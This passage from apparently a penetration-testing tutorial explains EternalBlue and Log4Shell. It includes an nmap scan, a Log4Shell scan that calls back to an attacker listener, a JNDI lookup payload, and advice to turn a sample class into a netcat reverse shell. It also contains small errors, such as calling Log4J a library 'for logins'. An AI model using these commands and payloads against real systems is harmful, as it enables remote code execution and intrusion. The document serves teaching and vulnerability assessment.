- Too complex to explain in few words. Check the paper linked below.

- There is a bug that lets you allocate a chunk with a specified size in the kernel non-paged pool with 
the specified size. It is used in the heap grooming phase when creating a hole that later will be filled 
with a data size that causes an out of bound write to the next chunk (Bug A & Bug B).

[Source: Checkpoint](https://research.checkpoint.com/2017/eternalblue-everything-know/). Very in-depth research on the matter. Good for those who want to learn 
and understand.

EternalBlue is famous due to it's usage on the ransomware WannaCry released around 2017. 

We can search for this vulnerability using NSE scripts.

```bash
$ nmap --script vuln-ms17-010 [TARGET] # MS17-010 it's the internal vulnerability numbering system Microsoft uses.
```

The anatomy of the attack goes like this:

1. Send a specially crafted malicious payload to the SMB server.
2. Depending on the payload, you might get a reverse shell or something else.

<a id="6.3.3"></a>
### Log4shell (Log4J)

Log4J is a common library that's used for logins in Java. It exploits a mishandling of JNDI and LDAP queries.

Install the NSE script from GitHub.

```bash
$ mkdir -p $HOME/.nmap/scripts 
$ git clone https://github.com/giterlizzi/nmap-log4shell && cp nmap-log4shell/log4shell.nse $HOME/.nmap/scripts && rm -rf nmap-log4shell
$ nc -nlvp [PORT]
$ nmap --script lo4shell --script-args log4shell.callback-server=[ATTACKER IP]:[ATTACKER PORT] [TARGET]
```

The anatomy of the attack goes like this:

1. The attacker sends a malicious payload 
  - Similar to this: ${jndi:ldap://our_ldap_server/my_code}.
2. It mishandles the request and it evaluates the code.
3. Since the payload is between curly braces and it starts with a dollar sign, it thinks it's a 
variable. So, it connects to the LDAP server to find the "my_code" code.
4. It then executes the class "my_code". It can be whatever the attacker wants (as long as its inside
the servers permission to run).

An instance of "my_code" can be like [this](https://github.com/snyk-labs/java-goof/blob/main/log4shell-goof/log4shell-server/src/main/java/Evil.java). 
This code is benign. It doesn't establish anything serious like a reverse shell or an SQL dump. It just
creates a file with the content "PWNED". nevertheless, it can be malicious. Change the "echo" with something 
like a `nc [ATTACKERS IP] [ATTACKERS PORT]` and you'll have a reverse shell. Although in most cases, a Python
one-lines will work better than a Netcat session, since people have realized that having Netcat is a good thing 
for LOTL experts.
